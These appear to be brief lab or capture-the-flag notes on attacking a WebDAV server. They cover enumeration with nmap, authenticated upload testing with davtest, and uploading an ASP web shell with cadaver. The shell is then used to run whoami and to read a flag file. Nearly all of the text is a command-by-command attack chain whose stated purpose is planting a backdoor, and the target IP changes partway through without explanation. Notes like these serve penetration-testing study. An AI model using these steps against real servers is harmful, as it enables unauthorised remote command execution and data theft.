


- nmap --script http-enum -sV -p 80 10.0.16.177
- davtest -auth bob:password_123321 -url http://10.0.16.177/webdav (upload files)
- cadaver http://10.0.16.177/webdav (connect to upload)

we want to upload a backdoor

- put /usr/share/webshells/asp/webshell.asp
- broswer "http://10.6.17.22/webdav/webshell.asp"
- : http://10.0.16.177/webdav/webshell.asp?cmd=whoami
- http://10.6.17.22/webdav/webshell.asp?cmd=type%20c:\flag.txt
